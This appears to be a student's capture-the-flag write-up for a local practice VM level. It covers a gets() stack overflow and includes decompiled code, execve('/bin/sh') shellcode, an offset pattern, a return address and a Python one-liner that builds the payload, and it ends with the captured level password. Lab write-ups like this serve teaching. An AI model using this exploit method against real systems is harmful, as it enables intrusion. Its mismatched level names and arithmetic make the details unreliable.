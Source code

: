 ## Flag0 README: Finding Flag0

After connection on our vm with:
```bash
ssh level0@localhost -p 4242
```
We finded a binary program called level1.
if we decompile it we got this
```C
char *p()
{
  char s[64]; // [esp+1Ch] [ebp-4Ch] BYREF
  const void *v2; // [esp+5Ch] [ebp-Ch]
  unsigned int retaddr; // [esp+6Ch] [ebp+4h]

  fflush(stdout);
  gets(s);
  v2 = (const void *)retaddr;
  if ( (retaddr & 0xB0000000) == -1342177280 )
  {
    printf("(%p)\n", v2);
    _exit(1);
  }
  puts(s);
  return strdup(s);
}
```

So the idea was at first to an exploit call retToLibC which the goal is to bufferOverflow and then call a function of the C lib.
like execve("/bin/bash").
But that didn succeed but we have an idea : We can buffer overflow the stack make it call the return of strdup that will have allocated a shellcode and will return it.

The goal of the shell code is to execute bash. So the idea is to build something like this:
"Shell code" + "\x90"(no op) * sizeTo overflow + adress of return strdup.

The shellcode found online:
\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh

we use this to found where we can write in the return adress =
aA00aA01aA02aA03aA04aA05aA06aA07aA08aA09bA00bA01bA02bA03bA04bA05bA06bA07bA08bA09cA00cA01cA02cA03cA04cA05cA06cA07cA08cA09dA00dA01dA02dA03dA04dA05dA06dA07dA08dA09

we found this offset cA00
mean that we will write in the adress at the 80caractere : but because our shell code is 38 byte long we will add 80 - 45 = 35
\x90.

last thing is the return adress of strdup :
For that we run the code normaly we break after the strdup and we print eax bc we know that's in eax where the return adress his.
0x804a008
and we put in litle endian \x08\xa0\x04\x08.

and we build so
```python
python -c 'print("\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x90" * 35 + "\x08\xa0\x04\x08")
```
python -c 'print("\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x90" * 35 + "\x08\xa0\x04\x08")' > test6

and lets go we are lvl 3
cat .pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
